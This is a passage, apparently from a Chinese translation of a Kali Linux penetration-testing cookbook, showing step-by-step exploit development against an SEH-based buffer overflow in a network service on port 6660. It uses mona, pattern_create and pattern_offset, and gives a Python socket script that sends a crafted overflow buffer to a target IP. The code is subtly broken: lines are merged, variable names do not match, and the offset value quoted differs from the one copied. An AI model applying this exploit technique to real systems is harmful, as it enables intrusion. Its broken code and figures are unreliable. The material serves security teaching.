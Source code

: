 1.  有几种方法可以绕过这个问题，这是其中一种：使用一个没有使用`/SAFESEH ON`或`IMAGE_DLLCHARACTERISTICS_NO_SEH`选项编译的模块的覆盖地址。

1.  为了找到这个，我们将使用一个名为**mona**的 Immunity Debugger 插件。它可以从[`github.com/corelan/mona`](https://github.com/corelan/mona)下载：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/a4e6fef0-c9bd-4a0a-ab80-631458aa0a24.png)

1.  我们只需将 Python 文件复制到 Immunity 应用程序的`PyCommands`文件夹中。

1.  让我们继续制作利用程序。我们已经看到 EIP 已经被覆盖。现在我们将尝试使用 Kali Linux 中的模式创建脚本找到崩溃发生的确切字节：

```
 ruby /path/to/script/pattern_create.rb -l 2500
```

以下截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/2a92070e-e7f6-4ebc-8139-733ababfc285.png)

1.  代码应该是这样的：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/79e71616-6b73-4c64-8b4a-8c51bfda71b0.png)

1.  现在我们运行这个文件，在 Immunity Debugger 中，我们会看到访问违规错误。现在我们去查看| SEH 链。

1.  我们会看到我们的 SEH 已经被覆盖了。我们复制`42326742`的值，并使用 Kali 中的`pattern_offset`脚本找到它的位置：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/627727a0-1665-449e-b580-bf31f157d06f.png)

```
 ruby /path/to/script/pattern_offset.rb -q 423267412
```

以下截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/09a3a41d-f031-4c46-b222-106ce855f3e9.png)

1.  我们会看到偏移量为`966`字节，处理程序被覆盖的位置。

1.  现在让我们稍微修改我们的利用程序，看看会发生什么。我们有`966`字节；我们将使用`962`字节的 A 和 4 字节的断点，再用 4 个 B，剩下的字节用 C 来看看会发生什么：

```
        #!/usr/bin/python
        import socket address="192.168.110.12"
        port=6660 buffer = "USV "
        buffer+= "A" * 962
        buffer+= "\xcc\xcc\xcc\xcc"
        buffer+= "BBBB"
        buffer+= "C" * (2504 - len(buffer))
        buffer+= "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port)) 
        sock.send(buffer)
        sock.close()
```

1.  我们运行这个并查看 SEH 链。在这里，我们会注意到一个有趣的事情：我们添加的前 4 个断点实际上已经覆盖了一个内存地址，接下来的 4 个已经被覆盖到我们的 SEH 处理程序中：
